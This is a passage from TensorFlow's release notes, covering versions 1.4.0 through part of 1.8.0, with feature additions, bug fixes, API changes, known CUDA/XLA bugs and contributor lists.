* Added `tf.contrib.{proto,rpc}` to allow generic proto parsing and RPC communication<sup>[1](#rpc-issue)</sup>.

## Bug Fixes and Other Changes
* `tf.data`:
  * Add `tf.contrib.data.prefetch_to_device`, which enables prefetching dataset elements to GPU memory.
  * Add `tf.contrib.data.AUTOTUNE`, which allows the tf.data runtime to automatically tune the prefetch buffer sizes based on your system and environment.
  * Add `tf.contrib.data.make_csv_dataset` for building datasets of CSV files.
* Eager Execution:
  * With eager execution Datasets can now be used as standard python iterators (`for batch in dataset:`). Both `Dataset.__iter__()` and `Dataset.make_one_shot_iterator()` can now be used to create iterators when eager execution is enabled.
  * Automatic device placement has been enabled (i.e., use a GPU if available automatically, without requiring an explicit `with tf.device(“/gpu:0”)`) (Fixes #14133)
  * `tf.GradientTape` has moved out of contrib.
* `tf.keras`:
  * Added the fashion mnist dataset.
  * New data preprocessing functions: `image/random_brightness`, `sequence/TimeseriesGenerator`, and `text/hashing_trick`.
* Accelerated Linear Algebra (XLA):
  * Select and scatter in reference util and evaluator now use lexicographical order to break ties.
* TensorFlow Debugger (tfdbg) CLI:
  * During tensor-filter operations, allow exclusion of nodes by regular expressions.
  * Fix spurious background colors in some text terminals.
* `tf.contrib`:
  * Add meta-distribution BatchReshape which reshapes batch dimensions.
  * `tf.contrib.layers.recompute_grad` works for explicit gradient checkpointing on TPU.
  * Add `tf.contrib.framework.argsort`.
  * Allow `DNNBoostedTreeCombinedEstimator` to work with core versions of feature columns and losses.
  * Add non-linear image warping ops: `tf.contrib.image.sparse_image_warp`, `tf.contrib.image.dense_image_warp`, and `tf.contrib.image.interpolate_spline`.
  * Fix bug in `tf.contrib.opt.MultitaskOptimizerWrapper` where types of tensors were mismatched.
* Other:
  * Low-level graph construction now calls the TensorFlow C API. This change should be invisible to most users, but can be disabled by setting the environment variable `TF_C_API_GRAPH_CONSTRUCTION=0` in this release. Future releases will remove the ability to disable this change. Please [file a bug](https://github.com/tensorflow/tensorflow/issues/new) if you find yourself using this escape hatch.
  * Add description of shapes and a pointer to tutorial notebook in `tf.distributions.Distribution`.
  * Update scatter operations:
    * Add `tf.scatter_min` and `tf.scatter_max`
    * Extend scatter operations to work with a scalar update parameter.
  * Move cuDNN RNN ops to core for use in TensorFlow codebase only.
  * Add `float64` support for `Conv2d`, `Conv2dBackpropInput`, and `Conv2dBackpropFilter`.
  * Add `float64` support for `AvgPool`/`AvgPoolGrad`.
  * Make graph name scope thread local so that they work correctly in multi-threaded environments.
  * Update nsync synchronization library to avoid slow primitives on Linux.
  * Removed need to put nsync/public on C include path when building custom ops.
  * Add `tf.image.psnr`, `tf.image.ssim`, `tf.image.ssim_multiscale`, `tf.image.image_gradients`, `tf.image.sobel_edges`.
  * Add links to https://js.tensorflow.org.
  * Fix non-uniformity of orthogonal matrices.
  * Fix bug where multi-image Estimator eval summaries were not displayed correctly.

<a name="rpc-issue"><sup>1</sup></a> The cancellation logic of the RPC op contains a concurrency error. A fix has been submitted to master and will be part of the next release.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

4d55397500, Aghasy, Alan Du, Alan Lee, Alan Yee, Alex Wiltschko, Animesh Karnewar, Ankit Gupta, Anton Matosov, Aris L, Ben Barsdell, Brent Yi, Brett Koonce, Carl Thomé, cbockman, Chikanaga Tomoyuki, Chris Tava, CéDric Deltheil, Dahan Gong, Dalmo Cirne, Daniel Erenrich, David Norman, DavidNorman, Edd Wilder-James, Fanjin Zeng, Felix Abecassis, fo40225, George Sterpu, Giovanni Terlingen, Gor Baghdasaryan, Guillaume Klein, Hanchen Li, Ilya Polenov, Jakub Kolodziejczyk, Jason Sadler, Jayaram Bobba, Jerry Liu, jinghuangintel, Jiongyan Zhang (张炯衍), Joel Shor, Jong Wook Kim, Julian Eisenschlos, Karl Lessard, Krish Ravindranath, Loo Rong Jie, Lukas Geiger, Luke Iwanski, Mahmoud Abuzaina, ManHyuk, Marvin Richter, Maximilian Mitchell, Mohammad Ashraf Bhuiyan, msofka, Mustafa Kasap, Nathan Burnham, Nathan Luehr, Naveen Marri, ngc92, nio1814, Oleg Zabluda, Ou Changkun, Panos Ipeirotis, Paul Van Eck, Peter Lee, Piotr Czapla, qjivy, Rholais Lii, Rodrigo Formigone, Russell Klopfer, ryantimjohn, Sang Han, SebastiáN RamíRez, shengfuintel, Siby Jose Plathottam, Silver Chan, Stanislaw Antol, Taehoon Lee, Tarang Chugh, Ted Chang, Thomas Bastiani, Xian Xu, Xiaoming (Jason) Cui, Yan Facai (颜发才), yaox12, Yashal Shakti Kanungo, Yong Tang, Yuan (Terry) Tang, Yuxin Wu, Ziyue(Louis) Lu

# Release 1.7.0

## Major Features And Improvements
* Eager mode is moving out of contrib, try `tf.enable_eager_execution()`.
* Graph rewrites emulating fixed-point quantization compatible with TensorFlow Lite, supported by new `tf.contrib.quantize` package.
* Easily customize gradient computation with `tf.custom_gradient`.
* [TensorBoard Debugger Plugin](https://github.com/tensorflow/tensorboard/blob/master/tensorboard/plugins/debugger/README.md), the graphical user interface (GUI) of TensorFlow Debugger (tfdbg), is now in alpha.
* Experimental support for reading a sqlite database as a `Dataset` with new `tf.contrib.data.SqlDataset`.
* Distributed Mutex / CriticalSection added to `tf.contrib.framework.CriticalSection`.
* Better text processing with `tf.regex_replace`.
* Easy, efficient sequence input with `tf.contrib.data.bucket_by_sequence_length`
* Initial support for `tf.contrib.tensorrt` that enables native TensorRT in
  TensorFlow.

## Bug Fixes and Other Changes
* Accelerated Linear Algebra (XLA):
  * Add `MaxPoolGradGrad` support for XLA
  * CSE pass from Tensorflow is now disabled in XLA.
* `tf.data`:
  * `tf.data.Dataset`
    * Add support for building C++ Dataset op kernels as external libraries, using the `tf.load_op_library()` mechanism.
    * `Dataset.list_files()` now shuffles its output by default.
    * `Dataset.shuffle(..., seed=tf.constant(0, dtype=tf.int64))` now yields the same sequence of elements as `Dataset.shuffle(..., seed=0)`.
  * Add `num_parallel_reads` argument to `tf.data.TFRecordDataset`.
* `tf.contrib`:
  * `tf.contrib.bayesflow.halton_sequence` now supports randomization.
  * Add support for scalars in `tf.contrib.all_reduce`.
  * Add `effective_sample_size` to `tf.contrib.bayesflow.mcmc_diagnostics`.
  * Add `potential_scale_reduction` to `tf.contrib.bayesflow.mcmc_diagnostics`.
  * Add `BatchNormalization`, `Kumaraswamy` bijectors.
  * Deprecate `tf.contrib.learn`. Please check contrib/learn/README.md for instructions on how to convert existing code.
  * `tf.contrib.data`
    * Remove deprecated `tf.contrib.data.Dataset`, `tf.contrib.data.Iterator`, `tf.contrib.data.FixedLengthRecordDataset`, `tf.contrib.data.TextLineDataset`, and `tf.contrib.data.TFRecordDataset` classes.
    * Added `bucket_by_sequence_length`, `sliding_window_batch`, and `make_batched_features_dataset`
  * Remove unmaintained `tf.contrib.ndlstm`. You can find it externally at https://github.com/tmbarchive/tfndlstm.
  * Moved most of `tf.contrib.bayesflow` to its own repo: `tfp`
* Other:
  * tf.py_func now reports the full stack trace if an exception occurs.
  * Integrate `TPUClusterResolver` with GKE's integration for Cloud TPUs.
  * Add a library for statistical testing of samplers.
  * Add Helpers to stream data from the GCE VM to a Cloud TPU.
  * Integrate ClusterResolvers with TPUEstimator.
  * Unify metropolis_hastings interface with HMC kernel.
  * Move LIBXSMM convolutions to a separate --define flag so that they are disabled by default.
  * Fix `MomentumOptimizer` lambda.
  * Reduce `tfp.layers` boilerplate via programmable docstrings.
  * Add `auc_with_confidence_intervals`, a method for computing the AUC and confidence interval with linearithmic time complexity.
  * `regression_head` now accepts customized link function, to satisfy the usage that user can define their own link function if the `array_ops.identity` does not meet the requirement.
  * Fix `initialized_value` and `initial_value` behaviors for `ResourceVariables` created from `VariableDef` protos.
  * Add TensorSpec to represent the specification of Tensors.
  * Constant folding pass is now deterministic.
  * Support `float16` `dtype` in `tf.linalg.*`.
  * Add `tf.estimator.export.TensorServingInputReceiver` that allows `tf.estimator.Estimator.export_savedmodel` to pass raw tensors to model functions.

## Deprecations

* TensorFlow 1.7 may be the last time we support Cuda versions below 8.0.
  Starting with TensorFlow 1.8 release, 8.0 will be the minimum supported
  version.
* TensorFlow 1.7 may be the last time we support cuDNN versions below 6.0.
  Starting with TensorFlow 1.8 release, 6.0 will be the minimum supported
  version.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

4d55397500, Abe, Alistair Low, Andy Kernahan, Appledore, Ben, Ben Barsdell, Boris Pfahringer, Brad Wannow, Brett Koonce, Carl Thomé, cclauss, Chengzhi Chen, Chris Drake, Christopher Yeh, Clayne Robison, Codrut Grosu, Daniel Trebbien, Danny Goodman, David Goodwin, David Norman, Deron Eriksson, Donggeon Lim, Donny Viszneki, DosLin, DylanDmitri, Francisco Guerrero, Fred Reiss, gdh1995, Giuseppe, Glenn Weidner, gracehoney, Guozhong Zhuang, Haichen "Hc" Li, Harald Husum, harumitsu.nobuta, Henry Spivey, hsm207, Jekyll Song, Jerome, Jiongyan Zhang, jjsjann123, John Sungjin Park, Johnson145, JoshVarty, Julian Wolff, Jun Wang, June-One, Kamil Sindi, Kb Sriram, Kdavis-Mozilla, Kenji, lazypanda1, Liang-Chi Hsieh, Loo Rong Jie, Mahesh Bhosale, MandarJKulkarni, ManHyuk, Marcus Ong, Marshal Hayes, Martin Pool, matthieudelaro, mdfaijul, mholzel, Michael Zhou, Ming Li, Minmin Sun, Myungjoo Ham, MyungsungKwak, Naman Kamra, Peng Yu, Penghao Cen, Phil, Raghuraman-K, resec, Rohin Mohanadas, Sandeep N Gupta, Scott Tseng, seaotterman, Seo Sanghyeon, Sergei Lebedev, Ted Chang, terrytangyuan, Tim H, tkunic, Tod, vihanjain, Yan Facai (颜发才), Yin Li, Yong Tang, Yukun Chen, Yusuke Yamada


# Release 1.6.0

## Breaking Changes
* Prebuilt binaries are now built against CUDA 9.0 and cuDNN 7.
* Prebuilt binaries will use AVX instructions. This may break TF on older CPUs.

## Major Features And Improvements
* New Optimizer internal API for non-slot variables. Descendants of AdamOptimizer that access _beta[12]_power will need to be updated.
* `tf.estimator.{FinalExporter,LatestExporter}` now export stripped SavedModels. This improves forward compatibility of the SavedModel.
* FFT support added to XLA CPU/GPU.

## Bug Fixes and Other Changes
* Documentation updates:
  * Added a second version of Getting Started, which is aimed at ML
newcomers.
  * Clarified documentation on `resize_images.align_corners` parameter.
  * Additional documentation for TPUs.
* Google Cloud Storage (GCS):
  * Add client-side throttle.
  * Add a `FlushCaches()` method to the FileSystem interface, with an implementation for GcsFileSystem.
* Other:
  * Add `tf.contrib.distributions.Kumaraswamy`.
  * `RetryingFileSystem::FlushCaches()` calls the base FileSystem's `FlushCaches()`.
  * Add `auto_correlation` to distributions.
  * Add `tf.contrib.distributions.Autoregressive`.
  * Add SeparableConv1D layer.
  * Add convolutional Flipout layers.
  * When both inputs of `tf.matmul` are bfloat16, it returns bfloat16, instead of float32.
  * Added `tf.contrib.image.connected_components`.
  * Add `tf.contrib.framework.CriticalSection` that allows atomic variable access.
  * Output variance over trees predictions for classifications tasks.
  * For `pt` and `eval` commands, allow writing tensor values to filesystem as numpy files.
  * gRPC: Propagate truncated errors (instead of returning gRPC internal error).
  * Augment `parallel_interleave` to support 2 kinds of prefetching.
  * Improved XLA support for C64-related ops log, pow, atan2, tanh.
  * Add probabilistic convolutional layers.

## API Changes
* Introducing `prepare_variance` boolean with default setting to False for backward compatibility.
* Move `layers_dense_variational_impl.py` to `layers_dense_variational.py`.

## Known Bugs
* Using XLA:GPU with CUDA 9 and CUDA 9.1 results in garbage results and/or
  `CUDA_ILLEGAL_ADDRESS` failures.

  Google discovered in mid-December 2017 that the PTX-to-SASS compiler in CUDA 9
  and CUDA 9.1 sometimes does not properly compute the carry bit when
  decomposing 64-bit address calculations with large offsets (e.g. `load [x +
  large_constant]`) into 32-bit arithmetic in SASS.

  As a result, these versions of `ptxas` miscompile most XLA programs which use
  more than 4GB of temp memory.  This results in garbage results and/or
  `CUDA_ERROR_ILLEGAL_ADDRESS` failures.

  A fix in CUDA 9.1.121 is expected in late February 2018.  We do not expect a
  fix for CUDA 9.0.x.  Until the fix is available, the only workaround is to
  [downgrade](https://developer.nvidia.com/cuda-toolkit-archive) to CUDA 8.0.x
  or disable XLA:GPU.

  TensorFlow will print a warning if you use XLA:GPU with a known-bad version of
  CUDA; see e00ba24c4038e7644da417ddc639169b6ea59122.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

4d55397500, Ag Ramesh, Aiden Scandella, Akimasa Kimura, Alex Rothberg, Allen Goodman,
amilioto, Andrei Costinescu, Andrei Nigmatulin, Anjum Sayed, Anthony Platanios,
Anush Elangovan, Armando Fandango, Ashish Kumar Ram, Ashwini Shukla, Ben, Bhavani Subramanian,
Brett Koonce, Carl Thomé, cclauss, Cesc, Changming Sun, Christoph Boeddeker, Clayne Robison,
Clemens Schulz, Clint (Woonhyuk Baek), codrut3, Cole Gerdemann, Colin Raffel, Daniel Trebbien,
Daniel Ylitalo, Daniel Zhang, Daniyar, Darjan Salaj, Dave Maclachlan, David Norman, Dong--Jian,
dongsamb, dssgsra, Edward H, eladweiss, elilienstein, Eric Lilienstein, error.d, Eunji Jeong, fanlu,
Florian Courtial, fo40225, Fred, Gregg Helt, Guozhong Zhuang, Hanchen Li, hsm207, hyunyoung2,
ImSheridan, Ishant Mrinal Haloi, Jacky Ko, Jay Young, Jean Flaherty, Jerome, JerrikEph, Jesse
Kinkead, jfaath, Jian Lin, jinghuangintel, Jiongyan Zhang, Joel Hestness, Joel Shor, Johnny Chan,
Julian Niedermeier, Julian Wolff, JxKing, K-W-W, Karl Lessard, Kasper Marstal, Keiji Ariyama,
Koan-Sin Tan, Loki Der Quaeler, Loo Rong Jie, Luke Schaefer, Lynn Jackson, ManHyuk, Matt Basta,
Matt Smith, Matthew Schulkind, Michael, michaelkhan3, Miguel Piedrafita, Mikalai Drabovich,
Mike Knapp, mjwen, mktozk, Mohamed Aly, Mohammad Ashraf Bhuiyan, Myungjoo Ham, Naman Bhalla,
Namrata-Ibm, Nathan Luehr, nathansilberman, Netzeband, Niranjan Hasabnis, Omar Aflak, Ozge
Yalcinkaya, Parth P Panchal, patrickzzy, Patryk Chrabaszcz, Paul Van Eck, Paweł Kapica, Peng Yu,
Philip Yang, Pierre Blondeau, Po-Hsien Chu, powderluv, Puyu Wang, Rajendra Arora, Rasmus, Renat
Idrisov, resec, Robin Richtsfeld, Ronald Eddy Jr, Sahil Singh, Sam Matzek, Sami Kama, sandipmgiri,
Santiago Castro, Sayed Hadi Hashemi, Scott Tseng, Sergii Khomenko, Shahid, Shengpeng Liu, Shreyash
Sharma, Shrinidhi Kl, Simone Cirillo, simsicon, Stanislav Levental, starsblinking, Stephen Lumenta,
Steven Hickson, Su Tang, Taehoon Lee, Takuya Wakisaka, Ted Chang, Ted Ying, Tijmen Verhulsdonck,
Timofey Kondrashov, vade, vaibhav, Valentin Khrulkov, vchigrin, Victor Costan, Viraj Navkal,
Vivek Rane, wagonhelm, Yan Facai (颜发才), Yanbo Liang, Yaroslav Bulatov, yegord, Yong Tang,
Yoni Tsafir, yordun, Yuan (Terry) Tang, Yuxin Wu, zhengdi, Zhengsheng Wei, 田传武

# Release 1.5.0

## Breaking Changes
* Prebuilt binaries are now built against CUDA 9.0 and cuDNN 7.
* Starting from 1.6 release, our prebuilt binaries will use AVX instructions.
  This may break TF on older CPUs.

## Major Features And Improvements
* [Eager execution](https://github.com/tensorflow/tensorflow/tree/r1.5/tensorflow/contrib/eager)
  preview version is now available.
* [TensorFlow Lite](https://github.com/tensorflow/tensorflow/tree/r1.5/tensorflow/lite)
  dev preview is now available.
* CUDA 9.0 and cuDNN 7 support.
* Accelerated Linear Algebra (XLA):
  * Add `complex64` support to XLA compiler.
  * `bfloat` support is now added to XLA infrastructure.
  * Make `ClusterSpec` propagation work with XLA devices.
  * Use a deterministic executor to generate XLA graph.
* `tf.contrib`:
  * `tf.contrib.distributions`:
    * Add `tf.contrib.distributions.Autoregressive`.
    * Make `tf.contrib.distributions` QuadratureCompound classes support batch
    * Infer `tf.contrib.distributions.RelaxedOneHotCategorical` `dtype` from arguments.
    * Make `tf.contrib.distributions` quadrature family parameterized by
      `quadrature_grid_and_prob` vs `quadrature_degree`.
    * `auto_correlation` added to `tf.contrib.distributions`
  * Add `tf.contrib.bayesflow.layers`, a collection of probabilistic (neural) layers.
  * Add `tf.contrib.bayesflow.halton_sequence`.
  * Add `tf.contrib.data.make_saveable_from_iterator.`
  * Add `tf.contrib.data.shuffle_and_repeat`.
  * Add new custom transformation: `tf.contrib.data.scan()`.
  * `tf.contrib.distributions.bijectors`:
    * Add `tf.contrib.distributions.bijectors.MaskedAutoregressiveFlow`.
    * Add `tf.contrib.distributions.bijectors.Permute`.
    * Add `tf.contrib.distributions.bijectors.Gumbel`.
    * Add `tf.contrib.distributions.bijectors.Reshape`.
    * Support shape inference (i.e., shapes containing -1) in the Reshape bijector.
* Add `streaming_precision_recall_at_equal_thresholds,` a method for computing
  streaming precision and recall with `O(num_thresholds + size of predictions)`
  time and space complexity.
* Change `RunConfig` default behavior to not set a random seed, making random
  behavior independently random on distributed workers. We expect this to
  generally improve training performance. Models that do rely on determinism
  should set a random seed explicitly.
* Replaced the implementation of `tf.flags` with `absl.flags`.
* Add support for `CUBLAS_TENSOR_OP_MATH` in fp16 GEMM
* Add support for CUDA on NVIDIA Tegra devices

## Bug Fixes and Other Changes
* Documentation updates:
  * Clarified that you can only install TensorFlow on 64-bit machines.
  * Added a short doc explaining how `Estimator`s save checkpoints.
  * Add documentation for ops supported by the `tf2xla` bridge.
  * Fix minor typos in the doc of `SpaceToDepth` and `DepthToSpace`.
  * Updated documentation comments in `mfcc_mel_filterbank.h` and `mfcc.h` to
    clarify that the input domain is squared magnitude spectra and the weighting
    is done on linear magnitude spectra (sqrt of inputs).
  * Change `tf.contrib.distributions` docstring examples to use `tfd` alias
    rather than `ds`, `bs`.
  * Fix docstring typos in `tf.distributions.bijectors.Bijector`.
  * `tf.assert_equal` no longer raises `ValueError.` It now raises
    `InvalidArgumentError,` as documented.
  * Update Getting Started docs and API intro.
* Google Cloud Storage (GCS):
  * Add userspace DNS caching for the GCS client.
  * Customize request timeouts for the GCS filesystem.
  * Improve GCS filesystem caching.
* Bug Fixes:
  * Fix bug where partitioned integer variables got their wrong shapes. Before
  * Fix correctness bug in CPU and GPU implementations of Adadelta.
  * Fix a bug in `import_meta_graph`'s handling of partitioned variables when
    importing into a scope. WARNING: This may break loading checkpoints of
    graphs with partitioned variables saved after using `import_meta_graph` with
    a non-empty `import_scope` argument.
  * Fix bug in offline debugger which prevented viewing events.
  * Added the `WorkerService.DeleteWorkerSession` method to the gRPC interface,
    to fix a memory leak. Ensure that your master and worker servers are running
    the same version of TensorFlow to avoid compatibility issues.
  * Fix bug in peephole implementation of BlockLSTM cell.
  * Fix bug by casting dtype of `log_det_jacobian` to match `log_prob` in
    `TransformedDistribution`.
  * Fix a bug in `import_meta_graph`'s handling of partitioned variables when
  * Ensure `tf.distributions.Multinomial` doesn't underflow in `log_prob`.
    Before this change, all partitions of an integer variable were initialized
    with the shape of the unpartitioned variable; after this change they are
    initialized correctly.
* Other:
  * Add necessary shape util support for bfloat16.
  * Add a way to run ops using a step function to MonitoredSession.
  * Add `DenseFlipout` probabilistic layer.
  * A new flag `ignore_live_threads` is available on train. If set to `True`, it
    will ignore threads that remain running when tearing down infrastructure
    after successfully completing training, instead of throwing a RuntimeError.
  * Restandardize `DenseVariational` as simpler template for other probabilistic
    layers.
  * `tf.data` now supports `tf.SparseTensor` components in dataset elements.
  * It is now possible to iterate over `Tensor`s.
  * Allow `SparseSegmentReduction` ops to have missing segment IDs.
  * Modify custom export strategy to account for multidimensional sparse float
    splits.
  * `Conv2D`, `Conv2DBackpropInput`, `Conv2DBackpropFilter` now supports arbitrary
    dilations with GPU and cuDNNv6 support.
  * `Estimator` now supports `Dataset`: `input_fn` can return a `Dataset`
    instead of `Tensor`s.
  * Add `RevBlock`, a memory-efficient implementation of reversible residual layers.
  * Reduce BFCAllocator internal fragmentation.
  * Add `cross_entropy` and `kl_divergence` to `tf.distributions.Distribution`.
  * Add `tf.nn.softmax_cross_entropy_with_logits_v2` which enables backprop
    w.r.t. the labels.
  * GPU back-end now uses `ptxas` to compile generated PTX.
  * `BufferAssignment`'s protocol buffer dump is now deterministic.
  * Change embedding op to use parallel version of `DynamicStitch`.
  * Add support for sparse multidimensional feature columns.
  * Speed up the case for sparse float columns that have only 1 value.
  * Allow sparse float splits to support multivalent feature columns.
  * Add `quantile` to `tf.distributions.TransformedDistribution`.
  * Add `NCHW_VECT_C` support for `tf.depth_to_space` on GPU.
  * Add `NCHW_VECT_C` support for `tf.space_to_depth` on GPU.

## API Changes
* Rename `SqueezeDims` attribute to `Axis` in C++ API for Squeeze op.
* `Stream::BlockHostUntilDone` now returns Status rather than bool.
* Minor refactor: move stats files from `stochastic` to `common` and remove
  `stochastic`.

## Known Bugs
* Using XLA:GPU with CUDA 9 and CUDA 9.1 results in garbage results and/or
  `CUDA_ILLEGAL_ADDRESS` failures.

  Google discovered in mid-December 2017 that the PTX-to-SASS compiler in CUDA 9
  and CUDA 9.1 sometimes does not properly compute the carry bit when
  decomposing 64-bit address calculations with large offsets (e.g. `load [x +
  large_constant]`) into 32-bit arithmetic in SASS.

  As a result, these versions of `ptxas` miscompile most XLA programs which use
  more than 4GB of temp memory.  This results in garbage results and/or
  `CUDA_ERROR_ILLEGAL_ADDRESS` failures.

  A fix in CUDA 9.1.121 is expected in late February 2018.  We do not expect a
  fix for CUDA 9.0.x.  Until the fix is available, the only workaround is to
  [downgrade](https://developer.nvidia.com/cuda-toolkit-archive) to CUDA 8.0.x
  or disable XLA:GPU.

  TensorFlow will print a warning if you use XLA:GPU with a known-bad version of
  CUDA; see e00ba24c4038e7644da417ddc639169b6ea59122.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

Adam Zahran, Ag Ramesh, Alan Lee, Alan Yee, Alex Sergeev, Alexander, Amir H. Jadidinejad,
Amy, Anastasios Doumoulakis, Andrei Costinescu, Andrei Nigmatulin, Anthony Platanios,
Anush Elangovan, arixlin, Armen Donigian, ArtëM Sobolev, Atlas7, Ben Barsdell, Bill Prin,
Bo Wang, Brett Koonce, Cameron Thomas, Carl Thomé, Cem Eteke, cglewis, Changming Sun,
Charles Shenton, Chi-Hung, Chris Donahue, Chris Filo Gorgolewski, Chris Hoyean Song,
Chris Tava, Christian Grail, Christoph Boeddeker, cinqS, Clayne Robison, codrut3, concerttttt,
CQY, Dan Becker, Dan Jarvis, Daniel Zhang, David Norman, dmaclach, Dmitry Trifonov,
Donggeon Lim, dongpilYu, Dr. Kashif Rasul, Edd Wilder-James, Eric Lv, fcharras, Felix Abecassis,
FirefoxMetzger, formath, FredZhang, Gaojin Cao, Gary Deer, Guenther Schmuelling, Hanchen Li,
Hanmin Qin, hannesa2, hyunyoung2, Ilya Edrenkin, Jackson Kontny, Jan, Javier Luraschi,
Jay Young, Jayaram Bobba, Jeff, Jeff Carpenter, Jeremy Sharpe, Jeroen BéDorf, Jimmy Jia,
Jinze Bai, Jiongyan Zhang, Joe Castagneri, Johan Ju, Josh Varty, Julian Niedermeier,
JxKing, Karl Lessard, Kb Sriram, Keven Wang, Koan-Sin Tan, Kyle Mills, lanhin, LevineHuang,
Loki Der Quaeler, Loo Rong Jie, Luke Iwanski, LáSzló Csomor, Mahdi Abavisani, Mahmoud Abuzaina,
ManHyuk, Marek ŠUppa, MathSquared, Mats Linander, Matt Wytock, Matthew Daley, Maximilian Bachl,
mdymczyk, melvyniandrag, Michael Case, Mike Traynor, miqlas, Namrata-Ibm, Nathan Luehr,
Nathan Van Doorn, Noa Ezra, Nolan Liu, Oleg Zabluda, opensourcemattress, Ouwen Huang,
Paul Van Eck, peisong, Peng Yu, PinkySan, pks, powderluv, Qiao Hai-Jun, Qiao Longfei,
Rajendra Arora, Ralph Tang, resec, Robin Richtsfeld, Rohan Varma, Ryohei Kuroki, SaintNazaire,
Samuel He, Sandeep Dcunha, sandipmgiri, Sang Han, scott, Scott Mudge, Se-Won Kim, Simon Perkins,
Simone Cirillo, Steffen Schmitz, Suvojit Manna, Sylvus, Taehoon Lee, Ted Chang, Thomas Deegan,
Till Hoffmann, Tim, Toni Kunic, Toon Verstraelen, Tristan Rice, Urs KöSter, Utkarsh Upadhyay,
Vish (Ishaya) Abrams, Winnie Tsang, Yan Chen, Yan Facai (颜发才), Yi Yang, Yong Tang,
Youssef Hesham, Yuan (Terry) Tang, Zhengsheng Wei, zxcqwe4906, 张志豪, 田传武

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.

# Release 1.4.1

## Bug Fixes and Other Changes
* `LinearClassifier` fix.

# Release 1.4.0

## Major Features And Improvements
* `tf.keras` is now part of the core TensorFlow API.
* [`tf.data`](http://tensorflow.org/guide/data) is now part of
  the core TensorFlow API.
  * The API is now subject to backwards compatibility guarantees.
  * For a guide to migrating from the `tf.contrib.data` API, see the
    [README](https://github.com/tensorflow/tensorflow/blob/r1.4/tensorflow/contrib/data/README.md).
  * Major new features include `Dataset.from_generator()` (for building an input
    pipeline from a Python generator), and the `Dataset.apply()` method for
    applying custom transformation functions.
  * Several custom transformation functions have been added, including
    `tf.contrib.data.batch_and_drop_remainder()` and
    `tf.contrib.data.sloppy_interleave()`.
* Add `train_and_evaluate` for simple distributed `Estimator` training.
* Add `tf.spectral.dct` for computing the DCT-II.
* Add Mel-Frequency Cepstral Coefficient support to `tf.contrib.signal`
  (with GPU and gradient support).
* Add a self-check on `import tensorflow` for Windows DLL issues.
* Add NCHW support to `tf.depth_to_space` on GPU.
* TensorFlow Debugger (tfdbg):
  * Add `eval` command to allow evaluation of arbitrary Python/numpy expressions
    in tfdbg command-line interface. See
    [Debugging TensorFlow Programs](https://www.tensorflow.org/guide/debugger)
    for more details.
  * Usability improvement: The frequently used tensor filter `has_inf_or_nan` is
    now added to `Session` wrappers and hooks by default. So there is no need
    for clients to call `.add_tensor_filter(tf_debug.has_inf_or_nan)` anymore.
* SinhArcsinh (scalar) distribution added to `contrib.distributions`.
* Make `GANEstimator` opensource.
* `Estimator.export_savedmodel()` now includes all valid serving signatures
  that can be constructed from the Serving Input Receiver and all available
  ExportOutputs. For instance, a classifier may provide regression- and
  prediction-flavored outputs, in addition to the classification-flavored one.
  Building signatures from these allows TF Serving to honor requests using the
  different APIs (Classify, Regress, and Predict). Furthermore,
  `serving_input_receiver_fn()` may now specify alternative subsets of nodes
  that may act as inputs. This allows, for instance, producing a prediction
  signature for a classifier that accepts raw `Tensors` instead of a serialized
  `tf.Example`.
* Add `tf.contrib.bayesflow.hmc`.
* Add `tf.contrib.distributions.MixtureSameFamily`.
* Make `Dataset.shuffle()` always reshuffles after each iteration by default.
* Add `tf.contrib.bayesflow.metropolis_hastings`.
* Add `log_rate` parameter to `tf.contrib.distributions.Poisson`.
* Extend `tf.contrib.distributions.bijector` API to handle some non-injective
  transforms.
* Java:
  * Generics (e.g., `Tensor<Integer>`) for improved type-safety
    (courtesy @andrewcmyers).
  * Support for multi-dimensional string tensors.
  * Support loading of custom operations (e.g. many in `tf.contrib`) on Linux
    and OS X
* All our prebuilt binaries have been built with CUDA 8 and cuDNN 6.
  We anticipate releasing TensorFlow 1.5 with CUDA 9 and cuDNN 7.

## Bug Fixes and Other Changes
* `tf.nn.rnn_cell.DropoutWrapper` is now more careful about dropping out LSTM
  states.  Specifically, it no longer ever drops the `c` (memory) state of an
  `LSTMStateTuple`.  The new behavior leads to proper dropout behavior
  for LSTMs and stacked LSTMs.  This bug fix follows recommendations from
  published literature, but is a behavioral change.  State dropout behavior
  may be customized via the new `dropout_state_filter_visitor` argument.
* Removed `tf.contrib.training.python_input`.  The same behavior, in a more
  flexible and reproducible package, is available via the new
  `tf.contrib.data.Dataset.from_generator` method!
* Fix `tf.contrib.distributions.Affine` incorrectly computing log-det-jacobian.
* Fix `tf.random_gamma` incorrectly handling non-batch, scalar draws.
* Resolved a race condition in TensorForest TreePredictionsV4Op.
* Google Cloud Storage file system, Amazon S3 file system, and Hadoop file
  system support are now default build options.
* Custom op libraries must link against libtensorflow_framework.so
  (installed at `tf.sysconfig.get_lib()`).
* Change `RunConfig` default behavior to not set a random seed, making random
  behavior independently random on distributed workers. We expect this to
  generally improve training performance. Models that do rely on determinism
  should set a random seed explicitly.

## Breaking Changes to the API
* The signature of the `tf.contrib.data.rejection_resample()` function has been
  changed. It now returns a function that can be used as an argument to
  `Dataset.apply()`.
* Remove `tf.contrib.data.Iterator.from_dataset()` method. Use
  `Dataset.make_initializable_iterator()` instead.
* Remove seldom used and unnecessary `tf.contrib.data.Iterator.dispose_op()`.
* Reorder some TF-GAN loss functions in a non-backwards compatible way.

## Known Issues
* In Python 3, `Dataset.from_generator()` does not support Unicode strings.
  You must convert any strings to bytes objects before yielding them from
  the generator.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

4d55397500, Abdullah Alrasheed, abenmao, Adam Salvail, Aditya Dhulipala, Ag Ramesh,
Akimasa Kimura, Alan Du, Alan Yee, Alexander, Amit Kushwaha, Amy, Andrei Costinescu,
Andrei Nigmatulin, Andrew Erlichson, Andrew Myers, Andrew Stepanov, Androbin, AngryPowman,
Anish Shah, Anton Daitche, Artsiom Chapialiou, asdf2014, Aseem Raj Baranwal, Ash Hall,
Bart Kiers, Batchu Venkat Vishal, ben, Ben Barsdell, Bill Piel, Carl Thomé, Catalin Voss,
Changming Sun, Chengzhi Chen, Chi Zeng, Chris Antaki, Chris Donahue, Chris Oelmueller,
Chris Tava, Clayne Robison, Codrut, Courtial Florian, Dalmo Cirne, Dan J, Darren Garvey,
